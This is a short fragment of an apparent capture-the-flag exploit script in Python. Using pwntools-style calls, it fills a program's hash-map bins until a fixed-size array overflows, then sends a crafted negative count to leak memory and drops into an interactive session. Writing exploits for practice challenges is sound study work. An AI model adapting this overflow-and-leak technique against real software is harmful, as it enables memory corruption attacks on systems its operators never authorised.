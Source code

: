 ```python
# typedef struct map_data {
#     size_t bin_sizes[10];
#     map_entry bins[10][4];
# } map_data;
# --> Overflow

count = 0
for i in range(0x100):
    if (i*31) % 10 == 9:
        if count == 4:
            break
        sla(b'> ', b'1')
        sla(b'name: ', p8(i) + b'\0')
        sla(b'them: ', str(i).encode())
        count += 1

# After executing increment, rdi and rsi is set so just call print()
# to get the leak
sla(b'> ', b'1')
sla(b'name: ', p8(49) + b'\0')
sla(b'them: ', str(-0x4ad).encode())
p.interactive()
```
